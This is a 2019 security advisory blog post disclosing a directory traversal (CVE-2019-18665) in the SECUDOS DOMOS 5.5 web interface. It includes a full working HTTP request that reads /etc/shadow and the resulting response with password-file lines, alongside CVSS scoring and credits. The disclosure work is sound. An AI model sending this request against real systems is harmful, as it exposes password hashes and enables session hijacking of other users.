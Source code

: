 ```yaml
---
layout: post
title: "CVE-2019-18665: Directory Traversal in DOMOS"
date:   2019-11-01 14:00:00
image:
      url: /assets/article_images/2016-05-30-inspec-cis-docker/cover.jpeg
video: false
comments: true
theme_color: 302F2D

author: 'Patrick Münch'

author_image: "https://avatars0.githubusercontent.com/u/7220740?s=400"
author_link: "https://twitter.com/atomiczero111"
---
```


# Overview

- Vendor: SECUDOS GmbH
- Product: DOMOS
- Version: 5.5
- Vulnerability: Directory Traversal
- Fixed Version: 5.6

# Background

DOMOS is an own and hardened operating system of SCUDOS GmbH. The operating system is used as a platform by several applications. It also offers a web interface for the administration of operating system settings.

# Issue Description

While analyzing the implementation of the DOMOS web interface, one directory traversal vulnerability has been identified, which can be exploited in order to read session_id´s from other registered users and this can lead to a session hijacking of those users. This vulnerability can be exploited by authenticated attackers with access to the web interface.

Please consider the following complete HTTP-Request:

__HTTP-Request__

~~~ http
GET /page/sl_logdl?dcfct=DCMlog.download_log&dbkey%3Asyslog.rlog=/etc/shadow HTTP/1.1

Host: 10.10.10.1:10000
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
(KHTML, like Gecko) Falkon/3.0.1 Chrome/69.0.3497.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,
image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.8
Cookie: L=german; S=WdylJWgYQfqXVu1VkvBP9pwxBdh91bhDWB87eB5h;
session_id=09bced960d7c7bb0cc15d28c7128b5bc86e7c611
~~~

The following HTTP response include the password hashes from the /etc/shadow:

__HTTP-Request__

~~~ http
HTTP/1.1 200 OK

Server: nginx/1.9.14
Date: Thu, 24 Jan 2019 11:48:50 GMT
Content-Type: application/data
Content-Length: 870
Connection: close
Last-Modified: Thu, 24 Jan 2019 11:48:50 GMT
Content-Disposition: shadow; filename="shadow"
Set-Cookie: session_id=09bced960d7c7bb0cc15d28c7128b5bc86e7c611;
expires=Fri, 25 Jan 2019 04:27:50 GMT; httponly; Path=/; secure
Strict-Transport-Security: max-age=15768000
X-Frame-Options: sameorigin
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Permitted-Cross-Domain-Policies: master-only

root:$1$xxxxxxxxxxx:17919:0:99999:7:::
bin:*:17632:0:99999:7:::
daemon:*:17632:0:99999:7:::
...[SNIP]...
~~~

# CVE

[CVE-2019-18665](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18665)

# CVSSv3 Base Score

CVSS Base Score: __6.5__

CVSS:3.0/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:N/A:N

# Credit

Pascal Keul of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)
Patrick Muench of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)
Torsten Löbner of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
